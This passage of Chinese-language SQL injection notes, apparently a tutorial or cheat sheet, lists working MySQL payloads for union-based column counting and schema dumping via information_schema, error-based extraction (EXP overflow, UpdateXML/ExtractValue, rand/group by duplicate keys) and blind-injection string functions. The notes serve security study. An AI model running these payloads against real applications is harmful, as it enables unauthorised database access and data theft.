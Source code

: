 ```
id=1' order by 4%23 //报错
id=1' order by 2%23，//正常
id=1' order by 3%23 //正常
```

1. 判断显示位

```
?id=-1' UNION SELECT 1,2,3%23
```

1. 获取数据（数据库名、表名、字段名）

数据库

```
?id=-1' union select 1,group_concat(schema_name),3+from+information_schema.schemata%23
```

表名

```
?id=-1' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema= database()%23
```

字段名

```
?id=-1' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_schema=database() AND table_name='users'%23
```

## 报错注入（error-based）

存在注入，且有错误信息显示，通过人为制造错误条件，使得结果出现在错误信息中

> `~`按位取反

- 数据溢出
  - EXP(_number_) 返回 e 的 x 次方
  - `!(select*from(select user())X)-~0`
- XPATH 语法错误
  - ExtractValue(_xml_frag_, _xpath_expr_) 查询
  - UpdateXML(_xml_target_, _xpath_expr_, _new_xml_) 修改
  
- 主键重复，count()和 group by 在遇到 rand()产生的重复值

```sql
select count(*) from information_schema.schemata group by concat((select user()),floor(rand(0)*2));
```

表中需要至少 3 条数据才能报错

## 盲注

存在注入，但没有回显和错误信息。盲注根据判断指标，分为`基于布尔的盲注`和`基于时间的盲注`。

- `SUBSTR(_string_, _start_, _lenth_)` - 字符串截取
- `ASCII(_character_)` - 返回字符的 ASCII 值
